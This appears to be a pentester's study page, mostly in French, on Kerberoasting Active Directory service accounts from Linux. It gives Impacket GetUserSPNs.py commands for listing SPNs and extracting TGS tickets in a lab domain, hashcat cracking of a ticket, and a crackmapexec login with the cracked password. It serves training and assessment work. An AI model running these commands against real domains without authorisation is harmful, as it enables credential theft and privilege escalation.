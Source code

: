# Kerberoasting - from Linux

### <mark style="color:red;">Kerberoasting Overview</mark>

Le **Kerberoasting** est une technique utilisée pour le **mouvement latéral** et l’**escalade de privilèges** dans les environnements **Active Directory**. L'attaque cible les **comptes Service Principal Name (SPN)**, qui sont des identifiants uniques utilisés par **Kerberos** pour associer une instance de service à un compte de service spécifique.

<mark style="color:green;">**Fonctionnement de l'attaque :**</mark>

1. **Les SPN et les comptes de service** : Ces comptes sont souvent des comptes de **domaine** utilisés pour exécuter des services, afin de surmonter les limitations des comptes intégrés comme **NT AUTHORITY\LOCAL SERVICE**.
2. **Demande de ticket Kerberos** : Tout utilisateur de domaine peut demander un ticket Kerberos pour un compte de service dans le même domaine, et cette procédure peut aussi être effectuée à travers des relations de confiance entre forêts.
3. **Accès requis pour l'attaque** : Pour effectuer une attaque **Kerberoasting**, il suffit d’avoir :
   * Le mot de passe en **texte clair** ou son **hachage NTLM**.
   * Un accès **shell** dans le contexte d’un compte utilisateur de domaine.
   * Un accès **SYSTEM** sur une machine membre du domaine.

<mark style="color:green;">**Risques liés aux comptes de service :**</mark>

* Les comptes de service dans **Active Directory** sont souvent des **administrateurs locaux** ou des comptes avec des privilèges élevés.
* Ces comptes peuvent être **ajoutés à des groupes privilégiés** comme **Domain Admins**.
* Il est courant de trouver des SPN associés à des comptes hautement privilégiés.

<mark style="color:green;">**Processus de l'attaque :**</mark>

1. **Récupération du ticket Kerberos (TGS-REP)** : Bien que l’obtention d’un ticket Kerberos ne permette pas d’exécuter directement des commandes avec ce compte, le ticket est crypté avec le **hachage NTLM** du compte de service.
2. **Attaque par force brute** : En soumettant ce ticket à une attaque par force brute hors ligne, à l’aide d'outils comme **Hashcat**, le mot de passe du service peut être récupéré.
3. **Comptes de service mal configurés** : Les comptes de service ont souvent des mots de passe **faibles** ou **réutilisés**, ce qui facilite le craquage.

<mark style="color:green;">**Exemples d'exploitation :**</mark>

* Si le mot de passe d'un **compte de service SQL Server** est craqué, un attaquant pourrait obtenir des privilèges **d'administrateur local** sur plusieurs serveurs, voire même **Domain Admin**.
* Même si un ticket Kerberos ne permet d’obtenir qu’un compte utilisateur à faible privilège, il peut être utilisé pour créer des **tickets de service** et accéder à des services, comme **MSSQL/SRV01**, en tant que **sysadmin**, permettant l'exécution de code sur le serveur cible.

Cette attaque a été popularisée par la présentation de **Tim Medin** lors de **Derbycon 2014**, où il a exposé le **Kerberoasting** au monde.

***

### <mark style="color:red;">Kerberoasting - Performing the Attack</mark>

L'attaque **Kerberoasting** peut être réalisée de différentes manières selon votre position sur le réseau :

* Depuis un hôte Linux non membre du domaine avec des identifiants de domaine valides.
* Depuis un hôte Linux membre du domaine en tant que root après avoir récupéré le fichier **keytab**.
* Depuis un hôte Windows membre du domaine authentifié en tant qu'utilisateur de domaine.
* Depuis un hôte Windows membre du domaine avec un shell dans le contexte d'un compte de domaine.
* En tant que **SYSTEM** sur un hôte Windows membre du domaine.
* Depuis un hôte Windows non membre du domaine en utilisant **runas /netonly**.

***

### <mark style="color:red;">Efficacy of the Attack</mark>

Le **Kerberoasting** peut être une méthode efficace pour effectuer des mouvements latéraux ou escalader les privilèges dans un domaine, mais la présence de **SPN** (Service Principal Names) ne garantit pas nécessairement un accès. Dans certains cas, après avoir craqué un ticket TGS, on peut obtenir un accès **Domain Admin** directement ou des informations permettant d'aller plus loin dans la compromission du domaine. Dans d'autres situations, bien que plusieurs tickets TGS soient récupérés et certains puissent être craqués, ceux-ci ne sont pas associés à des utilisateurs privilégiés, et l'attaque ne permet pas d'obtenir un accès supplémentaire.

Si l'attaque permet d'obtenir un accès élevé, cela sera marqué comme un **risque élevé** dans le rapport. Par contre, si aucun ticket TGS n'est craqué ou si les mots de passe sont suffisamment forts pour empêcher le craquage (même après plusieurs tentatives avec **Hashcat**), l'attaque serait classée comme un **risque moyen**, en soulignant le danger potentiel des SPN dans le domaine, mais en tenant compte de l'incapacité à prendre le contrôle d'un compte de domaine.

Il est important de faire la distinction entre les différents scénarios dans nos rapports et de savoir ajuster le niveau de risque en fonction des **contrôles de mitigation**, comme l'utilisation de **mots de passe forts**.

***

### <mark style="color:red;">Kerberoasting with GetUserSPNs.py</mark>

Let's start by installing the Impacket toolkit, which we can grab from [Here](https://github.com/SecureAuthCorp/impacket). After cloning the repository, we can cd into the directory and install it as follows:

<mark style="color:orange;">**Installing Impacket using Pip**</mark>

{% code fullWidth="true" %}
```shell-session
sudo python3 -m pip install .
```
{% endcode %}

<mark style="color:orange;">**Listing GetUserSPNs.py Help Options**</mark>

```shell-session
GetUserSPNs.py -h

```

<mark style="color:orange;">**Listing SPN Accounts with GetUserSPNs.py**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
{% endcode %}

<mark style="color:orange;">**Requesting all TGS Tickets**</mark>

{% code fullWidth="true" %}
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```
{% endcode %}

<mark style="color:orange;">**Requesting a Single TGS ticket**</mark>

{% code fullWidth="true" %}
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
{% endcode %}

<mark style="color:orange;">**Saving the TGS Ticket to an Output File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
{% endcode %}

Here we've written the TGS ticket for the `sqldev` user to a file named `sqldev_tgs`. Now we can attempt to crack the ticket offline using Hashcat hash mode `13100`.

<mark style="color:orange;">**Cracking the Ticket Offline with Hashcat**</mark>

```shell-session
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

We've successfully cracked the user's password as `database!`.&#x20;

<mark style="color:orange;">**Testing Authentication against a Domain Controller**</mark>

{% code fullWidth="true" %}
```shell-session
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
{% endcode %}

***
